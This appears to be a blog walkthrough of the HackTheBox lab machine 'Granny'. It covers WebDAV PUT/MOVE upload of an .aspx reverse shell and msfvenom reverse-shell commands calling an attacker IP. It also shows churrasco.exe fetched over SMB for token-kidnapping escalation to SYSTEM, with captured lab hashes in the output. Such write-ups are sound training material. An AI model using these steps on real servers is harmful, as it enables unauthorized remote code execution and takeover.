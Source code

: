 ![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-12.04.56-PM.png)

IP: 10.10.10.15, Microsoft IIS httpd 6.0 – Windows server 2003

## Enumeration

We begin by performing a basic nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/granny 10.10.10.15`

Open ports:

- 80

Our nmap scan showed that there are some WEB DAV methods which we can use such as:  
PUT, MOVE, DELETE, etc.

So to test this, we just simply upload a txt file and check if its getting uploaded.

![](http://vedanttare.com/wp-content/uploads/2022/04/upload-text-file.png)  
And boom!!! txt files can be uploaded to the server.

![](http://vedanttare.com/wp-content/uploads/2022/04/uploaded-txt-file.png)

## Exploitation

So, as we know that we can use PUT method to upload files(txt). Now, lets see if we can upload asp or aspx files as iis server mostly supports those extensions. But, unfortunately we were not able to upload asp or aspx files using PUT method.

Lets run davtest to check which file extensions are allowed to be uploaded.

![](http://vedanttare.com/wp-content/uploads/2022/04/davtest.png)

From the davtest output we can see that we are only able to execute txt and html files on the web server via DAV method(PUT). In this case we need to trick the web server into thinking that it is a txt file only. The web server is allowing us to only upload txt file….this is what its checking for…but we can move the txt file to a .aspx flie…(here the web server does not check anything).

We can see that we have to MOVE method available to us. We can generate a .aspx rev shell and copy the contents in a txt file and then using PUT upload it on the web server. Then, using MOVE method we can move it to a .aspx file.

![](http://vedanttare.com/wp-content/uploads/2022/04/move-method.png)

We can see that the MOVE method is successful:

![](http://vedanttare.com/wp-content/uploads/2022/04/move-success.png)

Using `msfvenom` to generate a reverse shell:

`kali@starscorp1o:~/htb/boxes/granny$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.4 LPORT=5555 -f aspx > shell.aspx<br></br>[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload<br></br>[-] No arch selected, selecting arch: x86 from the payload<br></br>No encoder or badchars specified, outputting raw payload<br></br>Payload size: 341 bytes<br></br>Final size of aspx file: 2808 bytes`

We can see from the burp repeater response tab that the file has been successfully created. Let’s setup a reverse listener on our machine and navigate to the file to get back a connection.

And BOOM!!! We get a low privilege shell.

## Privilege Escalation

Using a KERNEL exploit available for the system:

Just by googling the kernel version like:  
`Windows server 2003 sp2 local privesc`

If it doesn’t work use metasploit(most people have used it, don’t think it works without metasploit). After checking for privileges on the system:

`C:\temp>whoami /priv<br></br>whoami /priv`

## PRIVILEGES INFORMATION

`Privilege Name Description State<br></br>============================= ========================================= ========<br></br>SeAuditPrivilege Generate security audits Disabled<br></br>SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled<br></br>SeAssignPrimaryTokenPrivilege Replace a process level token Disabled<br></br>SeChangeNotifyPrivilege Bypass traverse checking Enabled<br></br>SeImpersonatePrivilege Impersonate a client after authentication Enabled<br></br>SeCreateGlobalPrivilege Create global objects Enabled`

![](http://vedanttare.com/wp-content/uploads/2022/04/whoamipriv.png)

We can see that the SeImpersonatePrivilege is enabled, which is very good for us. This allows us to use a method called **token hijacking.**

Basically, Server 2003 allows for the NETWORK SERVICE and LOCAL SERVICE accounts to impersonate the SYSTEM account, if this privilege is enabled. This presentation gives a great breakdown of it in a more technical sense: https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf

So, there is a program called churrasco.exe which will let us escalate privileges. Setting up a smbserver on our kali machine to transfer files as it will be easier:

![](http://vedanttare.com/wp-content/uploads/2022/04/smb-server.png)

`kali@starscorp1o:~/htb/boxes/granny$ sudo impacket-smbserver granny .<br></br>\Impacket v0.9.22.dev1+20200629.145357.5d4ad6cc - Copyright 2020 SecureAuth Corporation`

`[<em>] Config file parsed [</em>] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0<br></br>[<em>] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 [</em>] Config file parsed<br></br>[<em>] Config file parsed [</em>] Config file parsed<br></br>[<em>] Incoming connection (10.10.10.15,1042) [</em>] AUTHENTICATE_MESSAGE (\,GRANNY)<br></br>[<em>] User GRANNY\ authenticated successfully [</em>] :::00::4141414141414141<br></br>[<em>] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY) [</em>] User GRANNY\GRANNY$ authenticated successfully<br></br>[<em>] GRANNY$::HTB:d6c9616bf8ef0bab00000000000000000000000000000000:ba22d6229d766032c4a5079646d337dae216805b60186f8e:4141414141414141 [</em>] Closing down connection (10.10.10.15,1042)<br></br>[<em>] Remaining connections [] [</em>] Incoming connection (10.10.10.15,1044)<br></br>[<em>] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY) [</em>] User GRANNY\GRANNY$ authenticated successfully<br></br>[*] GRANNY$::HTB:7c1efbf67d267f4b00000000000000000000000000000000:196c496c81d0a371427eb3d044cdf914bc3143f9fb57f37d:4141414141414141<br></br>[-] Unknown level for query path info! 0x109`

So, we have setup a smbserver on our kali machine in the granny directory. Now copying the churrasco.exe file on the windows machine:

`C:\temp>copy \10.10.14.4\granny\churrasco.exe<br></br>copy \10.10.14.4\granny\churrasco.exe<br></br>1 file(s) copied.`

![](http://vedanttare.com/wp-content/uploads/2022/04/churrasco.png)

We are able to run commands with this program:

`C:\temp>churrasco.exe whoami<br></br>churrasco.exe whoami<br></br>nt authority\system`

But we can only do that when we run this program, after that the system goes back to nt authority/network service. So, what we can do now is generate a .exe rev shell payload using msfvenom:  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=9999 -f exe > rev.exe`

We can transfer this using the same methode(smb mode).

![](http://vedanttare.com/wp-content/uploads/2022/04/rev.png)

And, we can setup a listener on our kali machine and run the rev.exe using churrasco.exe on the windows machine:

`C:\temp>churrasco.exe -d "C:\temp\rev.exe"<br></br>churrasco.exe -d "C:\temp\rev.exe"<br></br>/churrasco/-->Current User: NETWORK SERVICE<br></br>/churrasco/-->Getting Rpcss PID …<br></br>/churrasco/-->Found Rpcss PID: 684<br></br>/churrasco/-->Searching for Rpcss threads …<br></br>/churrasco/-->Found Thread: 688<br></br>/churrasco/-->Thread not impersonating, looking for another thread…<br></br>/churrasco/-->Found Thread: 692<br></br>/churrasco/-->Thread not impersonating, looking for another thread…<br></br>/churrasco/-->Found Thread: 700<br></br>/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730<br></br>/churrasco/-->Getting SYSTEM token from Rpcss Service…<br></br>/churrasco/-->Found SYSTEM token 0x728<br></br>/churrasco/-->Running command with SYSTEM Token…<br></br>/churrasco/-->Done, command should have ran as SYSTEM!`

And BOOM!!!! We get root!

`kali@starscorp1o:~/htb/boxes/granny$ sudo nc -nlvp 1234<br></br>listening on [any] 1234 …<br></br>connect to [10.10.14.4] from (UNKNOWN) [10.10.10.15] 1052<br></br>Microsoft Windows [Version 5.2.3790]<br></br>(C) Copyright 1985-2003 Microsoft Corp.`

`C:\WINDOWS\TEMP>dir<br></br>dir<br></br>Volume in drive C has no label.<br></br>Volume Serial Number is 246C-D7FE`

`Directory of C:\WINDOWS\TEMP`

`08/30/2020 09:33 PM .<br></br>08/30/2020 09:33 PM ..<br></br>04/12/2017 10:14 PM rad61C21.tmp<br></br>04/12/2017 10:14 PM radDDF39.tmp<br></br>02/18/2007 03:00 PM 22,752 UPD55.tmp<br></br>12/24/2017 08:24 PM vmware-SYSTEM<br></br>08/30/2020 06:17 PM 10,643 vmware-vmsvc.log<br></br>12/24/2017 08:30 PM 2,294 vmware-vmusr.log<br></br>08/30/2020 06:17 PM 273 vmware-vmvss.log<br></br>4 File(s) 35,962 bytes<br></br>5 Dir(s) 18,142,490,624 bytes free`

`C:\WINDOWS\TEMP>whoami<br></br>whoami<br></br>nt authority\system`

`C:\WINDOWS\TEMP>hostname<br></br>hostname<br></br>granny`

`C:\WINDOWS\TEMP>whoami<br></br>whoami<br></br>nt authority\system`

![](http://vedanttare.com/wp-content/uploads/2022/04/rootedd.png)

We can grab the user flag:

![](http://vedanttare.com/wp-content/uploads/2022/04/user-flag.png)

And, we can grab the root flag as well,

![](http://vedanttare.com/wp-content/uploads/2022/04/root-flagg.png)

Important payloads:

![](http://vedanttare.com/wp-content/uploads/2022/04/imp-payload.png)

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Bastion](https://vedanttare.com/hackthebox-bastion/)

<iframe class="wp-embedded-content" data-secret="0FhH9XZ1ki" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-bastion/embed/#?secret=9O7GWh7sE9#?secret=0FhH9XZ1ki" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Bastion” — VEDANT TARE" width="600"></iframe></div></figure>
